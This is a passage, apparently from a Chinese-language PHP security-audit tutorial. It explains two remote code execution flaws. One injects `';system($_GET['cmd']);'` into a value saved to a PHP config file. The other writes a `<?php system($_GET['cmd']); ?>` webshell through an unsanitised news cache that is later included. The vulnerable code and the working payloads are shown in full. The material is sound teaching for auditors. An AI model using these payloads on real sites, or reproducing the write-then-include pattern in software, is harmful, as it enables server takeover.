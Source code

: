 我们要是提交`';system($_GET['cmd']);'`

配置文件就会变成

```
<?php 
$news_width = '';
system($_GET['cmd']);
'';
 $bgcolor = '#000000';
 $fgcolor = '#ffffff'; 
$padding = '5px'; 
$subject_margin = '0px'; 
$fontname = 'verdana';
 $fontsize = '13px'; 
?> 

```

很明显这就是个合法的 php 文件了，也成为了一个 webshell。

**Demo #2 缓存写入不当的 RCE**

```
$newsfile = "news.txt"; 
$file = fopen($newsfile, "r"); 
..........................................................................
 elseif ((isset($_REQUEST["title"])) && (isset($_REQUEST["date"])) &&
(isset($_REQUEST["post"])) && ($_REQUEST["title"]!="") &&
($_REQUEST["date"]!="") && ($_REQUEST["post"]!="")) {
$current_data = @fread($file, filesize($newsfile));
fclose($file);
$file = fopen($newsfile, "w");
$_REQUEST["post"] = stripslashes(($_REQUEST["post"]));
$_REQUEST["date"] = stripslashes(($_REQUEST["date"]));
$_REQUEST["title"] = stripslashes(($_REQUEST["title"]));
if(fwrite($file,$btable . " " . $btitle . " " . $_REQUEST["title"] . " " .  $etitle . " " . $bdate . " " . $_REQUEST["date"] . " " . $edate . " " . $bpost . " " . $_REQUEST["post"] . " " . $epost . " " . $etable . "\n " . $current_data))
include 'inc/posted.html';
else 
include 'inc/error1.html'; 
fclose($file);

```

这个代码的业务功能就是写入缓存，是下次使用之前直接调用静态文件 如何显示给访客呢

```
<? include("news.txt"); ?>

```

那么我们试试注入 shell

```
<table class='sn'> <tbody> 
<tr><td class='sn-title'> 
<?php system($_GET['cmd']); ?> 
</td></tr> <tr><td class='sn-date'> 
Posted on: 08/06/2009 </td></tr> <tr><td class='sn-post'> test2 </td></tr> </tbody></table><div><br /></div> <table class='sn'> <tbody> <tr><td class='sn-title'> test </td></tr> <tr><td class='sn-date'> Posted on: 08/06/2009 </td></tr> <tr><td class='sn-post'> test </td></tr> </tbody></table><div><br /></div>

```
